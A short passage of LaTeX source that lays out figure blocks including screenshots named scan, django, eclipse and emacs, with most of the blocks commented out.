	
\includegraphics[width=1.1\textwidth,height=21cm]{img/scan.png}
\end{center}
%% \begin{center}
%% 	
\includegraphics[width=1.1\textwidth]{img/django.png}
%% \end{center}
% \begin{center}
% 	
\includegraphics[width=1.1\textwidth]{img/eclipse.png}
% \end{center}
%% \begin{center}
%% 	
\includegraphics[width=1.1\textwidth]{img/emacs.png}
%% \end{center}
%% \begin{center}
